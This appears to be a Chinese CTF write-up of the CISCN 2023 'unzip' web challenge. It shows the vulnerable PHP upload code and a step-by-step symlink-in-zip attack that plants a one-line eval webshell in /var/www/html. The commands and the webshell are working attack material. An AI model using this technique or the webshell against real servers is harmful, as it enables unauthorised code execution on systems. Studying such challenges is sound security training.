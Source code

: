 ```yaml
---
title: ciscn2023 web部分
date: 2024-11-25 20:28:13
permalink: /pages/0e353f/
author: 
  name: Cola
  link: https://the0n3.top
---
```

学习下ciscn2023 web部分

<!-- more -->

## unzip

复现地址[ctfshow ciscn2023 unzip](https://ctf.show/challenges#Unzip-4002)

尝试上传一个图片，上传接口返回处理的源码

![1](https://the0n3.top/medias/ciscn2023/1.png)

```php
<?php
# 获取文件MIME类型
$finfo = finfo_open(FILEINFO_MIME_TYPE);
# 验证MEME类型，判断文件类型是否为zip
if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
# 移动到tmp目录，解压在临时目录里上传的zip文件
    exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
};
```

分析一下：

- 上传zip文件，解压到`/tmp`目录
- `unzip -o`参数，如果zip文件中存在同名文件，则覆盖

通过上面两步操作，可以和linux`软链接`结合起来实现以下功能：

- 创建一个软链接文件`link`，指向网站根目录`/var/www/html`，压缩上传
- 创建同名文件夹`link`，在文件夹里创建木马文件，在使在解压后能够覆盖`link`文件即`/var/www/html`目录，可以实现把木马解压到`/var/www/html`目录getshell

在第一步创建`link`软连接文件压缩后，**记得删除，否则无法创建同名文件夹`link`**，是否一定要同名文件夹？是，否则前面创建的软连接没有意义

演示：

在本地创建`link`软连接文件，指向`/var/www/html`目录

```bash
# 创建软连接
ln -s /var/www/html link
# 压缩
zip --symlinks link.zip link
```

![2](https://the0n3.top/medias/ciscn2023/2.png)

删除`link`软连接文件，创建同名文件夹`link`，在文件夹里创建`shell.php`文件

```bash
# 删除软连接
rm link
# 创建文件夹，进入
mkdir link
cd link
# 写个🐎子
echo '<?php highlight_file(__FILE__);eval($_GET[1]);phpinfo();?>' > shell.php
# 移动到上一级，压缩
zip -r link1.zip ./link/*
```

![3](https://the0n3.top/medias/ciscn2023/3.png)

现在，可以先上传`link.zip`文件，实现解压后的`link`链接到`/var/www/html`目录，再上传`link1.zip`文件，把写好的木马直接解压到`/var/www/html`目录getshell，如果木马文件名为`upload.php`,`index.php`应该还可以覆盖原文件

访问木马路径

![4](https://the0n3.top/medias/ciscn2023/4.png)

落枕脖子疼几天了，溜了

参考、致谢：

- [【CISCN2023】unzip 详解](https://www.cnblogs.com/gxngxngxn/p/17439035.html)
- [一个有趣的任意文件读取](https://xz.aliyun.com/t/2589?time__1311=n4%2Bxni0%3DG%3Di%3D0QAeGNDQTcqYqeGTZxY5vd4x)
- [ctfshow](https://ctf.show)